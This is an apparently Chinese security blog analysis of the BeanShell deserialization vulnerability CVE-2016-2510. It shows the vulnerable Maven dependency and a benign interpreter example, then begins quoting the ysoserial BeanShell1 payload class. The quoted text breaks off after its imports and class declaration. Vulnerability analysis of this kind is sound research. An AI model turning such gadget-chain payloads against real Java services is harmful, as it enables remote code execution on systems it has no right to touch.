 #  Beanshell 反序列化分析（CVE-2016-2510）   
 船山信安   2025-02-12 16:46  
  
# 版本  
```
<!-- https://mvnrepository.com/artifact/org.beanshell/bsh (beanshell1)-->  
<dependency>  
    <groupId>org.beanshell</groupId>  
    <artifactId>bsh</artifactId>  
    <version>2.0b5</version>  
</dependency>

```  
# 用法  
  
beanshell可以指向Java代码：  
```
package com.kiwi.beanshell;  
  
import bsh.EvalError;  
import bsh.Interpreter;  
  
public class BeanShellExample {  
    public static void main(String[] args) {  
        Interpreter interpreter = new Interpreter();  
        try {  
            // 执行BeanShell脚本  
            interpreter.eval("int a = 3; int b = 4; int sum = a + b; System.out.println(sum);");  
        } catch (EvalError evalError) {  
            evalError.printStackTrace();  
        }  
    }  
}

```  
# 分析  
  
yso给的payload，将其分成三部分：  
```
package ysoserial.payloads;  
  
import bsh.Interpreter;  
import bsh.XThis;  
import java.lang.reflect.InvocationHandler;  
import java.lang.reflect.Proxy;  
import java.util.Arrays;  
import java.util.Comparator;  
import java.util.PriorityQueue;  
import ysoserial.Strings;  
import ysoserial.payloads.annotation.Authors;  
import ysoserial.payloads.annotation.Dependencies;  
import ysoserial.payloads.util.PayloadRunner;  
import ysoserial.payloads.util.Reflections;  
  
@Dependencies({"org.beanshell:bsh:2.0b5"})  
@Authors({"pwntester", "cschneider4711"})  
public class BeanShell1 extends PayloadRunner implements ObjectPayload<PriorityQueue> {  
    public BeanShell1() {  
    }  
```